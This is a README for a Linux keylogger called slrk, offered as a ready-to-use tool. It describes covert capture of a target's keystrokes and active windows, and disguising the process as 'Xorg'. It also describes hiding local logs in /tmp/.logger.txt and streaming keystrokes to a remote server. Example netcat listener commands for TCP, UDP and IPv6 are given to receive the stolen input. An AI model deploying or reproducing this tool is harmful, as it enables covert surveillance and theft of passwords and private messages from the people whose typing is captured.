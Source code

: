 # Simple_Local&Remote_Keylogger<br>

###DESCRIPTION:

	Simple keylogger that runs on Linux either locally or remotely.
	It shows the active window on which the target is writing.
	Keys are mapped on US keyboard.
	It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	Process name is renamed as "Xorg".
	It works with both TCP and UDP and with ipv6 too.
	It must be run as root.

```Usage: #./slrk [OPTIONS]```

###OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

###EXAMPLE:

	####[TCP]
	```Server$ nc -lvp 8888 > logger.txt```
	```Client#./slrk -m remote -a 127.0.0.1 -p 8888```

	####[UDP]
	```Server$ nc -u -lvp 8888 > logger.txt```
	```Client#./slrk -m remote -a 127.0.0.1 -p 8888```

	####[IPv6]
	```Server$ nc -6 -lvp 8888 > logger.txt```
	```Client#./slrk -m remote -a ::1 -p 8888```
